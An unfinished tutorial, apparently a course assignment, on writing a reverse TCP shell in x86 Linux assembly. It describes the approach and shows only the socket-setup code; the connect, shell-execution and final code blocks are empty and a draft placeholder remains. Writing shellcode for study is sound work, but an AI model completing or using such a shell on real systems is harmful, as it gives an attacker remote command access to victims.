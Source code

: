 
# Creating a reverse TCP shell in x86 Assembly

**What is a reverse TCP shell?**

A reverse TCP shell is a program that instead of listening for incoming connections, the program will connect to a remote system and provide a local shell. This is useful in situations where the victim system is behind NAT, meaning you can't directly connect to it, instead the server will connect to you. For this reason, reverse TCP shells are usually prefered over bind shells.

## Okey let's do this, leeeerooooyyy jeeeeeenkins

Our previous article followed these steps to create a bind shell:
1. Create a socket
2. Bind the socket
3. Listen for connections
4. Accept new connections
5. Execute shell

This program will only need the following steps:
1. Create a socket
2. Connect to remote system
3. Execute shell

As can be seen, the reverse shell requires less steps and less code in order to function. For this assignment, I did not create a reference program in C, because most of the code was borrowed from our previous bind shell article. The only new code section in this assignment is the connect() function.

```
global _start

section .text

_start:

    ; zero out registers
    xor eax, eax
    xor ebx, ebx
    xor edx, edx

    ; -------------------------------------
    ; # Setup socket

    ; socketcall()
    mov al, 0x66     ; __NR_socketcall 102
    mov bl, 0x1      ; SYS_SOCKET

    ; # Setup socket
    ; Resulting file descriptor is saved to eax
    push edx
    push 0x1
    push 0x2
    mov ecx, esp     ; Arguments are located top of the stack
    int 0x80         ; Tell the kernel it's time to boogie
    mov edi, eax     ; $eax contains the file descriptor created by socket(), store it in $edi for now
```

After setting up the socketcall wrapper to call connect(), we need to setup the necessary arguments for `connect()`:

```

```

write something about the address, how to avoid nulls

Now we use `dup2()` to set STDIN, STDOUT, STDERR to our file descriptor, and execute `/bin/sh`. This will expose a local shell to the connected socket, thereby acheiving a remote TCP shell.

```

```

**Final code:**


```

```

## Making the address and port configurable



